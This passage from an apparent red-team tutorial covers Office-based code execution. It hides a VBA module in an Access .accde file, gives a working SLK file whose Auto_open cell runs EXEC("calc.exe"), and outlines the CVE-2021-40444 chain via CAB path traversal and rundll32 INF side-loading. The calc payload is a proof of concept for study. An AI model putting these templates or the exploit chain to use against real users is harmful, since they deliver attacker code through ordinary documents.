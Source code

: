 But if you want to view it just `Right-click` in the box, choose `Navigation Options`. In the `Display Options` part, check the `Show Hidden Objects` checkbox and click `OK`:
![image](https://user-images.githubusercontent.com/56353946/203398381-f9481530-8e59-4e74-a497-407302225af6.png)

Save it as `.accde` executable:
![image](https://user-images.githubusercontent.com/56353946/203398449-bc5f95d8-fbc6-4615-b628-805ad81c797a.png)

Executing our .accde file will pop-up with Microsoft Access Security Notice warning about the security concern. Just click Open:
![image](https://user-images.githubusercontent.com/56353946/203398601-73581bcd-64d0-4f1a-9632-4b137fd982be.png)

Code executed:

![image](https://user-images.githubusercontent.com/56353946/203398641-5fb239b4-b87e-4c90-bba3-0ae5ca77144b.png)

As you can see, we can't view our Module in the .accde executable:
![image](https://user-images.githubusercontent.com/56353946/203398765-730707fd-85c5-4430-a2d7-2b2c8d1845e7.png)

# SLK Excel
This study is based on [The MS Office Magic Show Stan Hegt Pieter Ceelen](https://www.youtube.com/watch?v=xY2DIRfqNvA) on SLK part. Do check out the video, it's awesome.

First, let's create the `.slk` file using text editor, put the payload below and save it as `filename.slk`:
```
ID;P
O;E
NN;NAuto_open;ER1C1;KOut Flank;F
C;X1;Y1;K0;EEXEC("calc.exe")
C;X1;Y2;K0;EHALT()
E
```

You can learn what are the meanings of every lines in the above code from the video by Stan I mentioned.

Upon opening the file, we need to click "Enable Content" button:
![image](https://user-images.githubusercontent.com/56353946/203399275-c72c8636-53ed-4523-98ac-4b77eee07712.png)

Then, code will executed:

![image](https://user-images.githubusercontent.com/56353946/203399369-371d350a-1d6a-488f-a365-9b5a491fb20f.png)

# CVE-2021-40444

Exploit chain:
1. Docx opened
2. Relationship stored in document.xml.rels points to malicious html
3. IE preview is launched to open the HTML link
4. JScript within the HTML contains an object pointing to a CAB file, and an iframe pointing to an INF file, prefixed with the ".cpl:" directive
5. The cab file is opened, the INF file stored in the %TEMP%\Low directory
6. Due to a Path traversal (ZipSlip) vulnerability in the CAB, it's possible to store the INF in %TEMP%
7. Then, the INF file is opened with the ".cpl:" directive, causing the side-loading of the INF file via rundll32 (if this is a DLL)
